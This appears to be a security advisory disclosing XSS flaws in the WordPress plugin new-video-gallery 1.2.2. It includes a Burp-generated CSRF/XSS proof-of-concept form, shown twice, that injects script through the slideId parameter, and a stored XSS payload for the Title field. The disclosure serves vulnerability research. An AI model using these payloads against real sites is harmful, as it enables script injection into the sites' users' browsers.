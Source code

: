 * App: new-video-gallery
* Verion: 1.2.2
* Issue: xss

# Detail
## 1
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://10.10.20.16:8888/wordpress/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="video&#95;gallery&#95;js" />
      <input type="hidden" name="slideId" value="1&quot;&gt;&lt;script&gt;alert&#40;1&#41;&lt;&#47;script&gt;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
[new-video-gallery](https://wordpress.org/plugins/new-video-gallery/) is a Wordpress plugin for create YouTube Gallery & Create Vimeo Gallery into your WordPress site. In the version 1.2.2 there are some XSS issues.

At frist, in the file new-video-gallery/new-video-gallery.php:300 line, the function `_ajax_video_gallery()` can be controlled.


And then the function `_vg_ajax_callback_function($id)` will be sinked.
![1](1.png)
- The PoC:
```php
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://10.10.20.16:8888/wordpress/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="video&#95;gallery&#95;js" />
      <input type="hidden" name="slideId" value="1&quot;&gt;&lt;script&gt;alert&#40;1&#41;&lt;&#47;script&gt;" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
![2](2.png)

## 2 
Press `Add Video Gallery` and into this page then press`ADD VIDEO BANNER`.You can upload an image and write the payload on hte `Title` label.
![3](3.png)
Then press Publish And You will get a `Shortcode`, press the `Shortcode` in your page.
![4](4.png)
![5](5.png)
The xss will execute in the front page.
![6](6.png)

* Poc
  ``` html
  “><script>alert(2)</script><
  ```
